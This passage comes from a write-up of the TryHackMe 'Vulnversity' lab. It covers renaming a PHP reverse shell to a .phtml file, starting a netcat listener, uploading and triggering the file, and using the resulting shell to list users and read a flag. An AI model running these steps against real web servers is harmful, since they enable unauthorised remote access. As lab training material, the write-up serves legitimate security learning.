 - Step 3: Rename the file into reverse-php.phtml
- Step 4: Open a listener using netcat 

```
nc -lvnp 1234
```

- Step 5: Upload reverse-php.phtml to the webserver
- Step 6: Navigate to the following IP address,  **http://<MACHINE IP>:3333/internal/uploads/reverse-php.phtml** which will execute your payload
- Step 7: A netcat session will be generated

![netcat](/assets/images/THM/2020-08-08-vulnversity/13.png)

### Task 4-5: Who is on the server

On the reverse shell, type the following command to locate the user.

```
ls /home
```

![home](/assets/images/THM/2020-08-08-vulnversity/14.png)

### Task 4-6: Capture bill's flag

On the reverse shell, type the following command for the flag

```
cat /home/bill/user.txt
```

## Task 5: Exploitation (Superuser)

### Task 5-1: Where is the SUID files?
